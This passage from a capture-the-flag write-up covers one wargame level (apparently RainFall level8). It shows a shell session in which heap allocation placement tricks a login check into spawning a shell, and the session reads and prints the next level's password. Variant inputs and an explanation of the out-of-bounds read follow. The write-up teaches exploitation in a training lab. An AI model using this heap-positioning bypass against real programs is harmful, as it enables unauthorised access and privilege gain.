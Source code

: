 ## Exploitation Implementation

### 13. Testing the Theory
```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth user
(0x804a008), (nil) 
service aaaa
(0x804a008), (0x804a018) 
service bbbb
(0x804a008), (0x804a028) 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**Success!** 
1. **auth user**: Allocated 4-byte buffer at 0x804a008
2. **service aaaa**: Allocated memory at 0x804a018
3. **service bbbb**: Allocated memory at 0x804a028 (= auth[32] location)
4. **login**: Found non-zero data at auth[32], executed shell!

### 14. Understanding Why It Works
```bash
# Memory state during exploitation:
auth pointer: 0x804a008
auth[32] location: 0x804a008 + 32 = 0x804a028

After two service calls:
0x804a028 contains: "bbbb" (from second service)

Login logic:
if (auth[32] != 0) {  # 0x804a028 contains "bbbb" ≠ 0
    system("/bin/sh");  # SUCCESS!
}
```

**Technical Explanation:**
- **auth[32] out-of-bounds access**: Login reads 28 bytes beyond allocated buffer
- **Heap positioning**: Two service calls place data precisely at auth[32] location  
- **Non-zero data**: Service text provides non-zero content for authentication check
- **Logic bypass**: Program grants access based on unintended heap memory content

### 15. Alternative Exploitation Approaches
```bash
# Variation 1: Different service text lengths
auth test
service x        # Minimal text, still allocates memory
service y        # Second allocation at auth[32]
login            # Success!

# Variation 2: Longer auth username (testing overflow)
auth verylongusernamethatoverflowsthe4bytebuffer
service a
service b  
login            # Still works - overflow doesn't break positioning
```
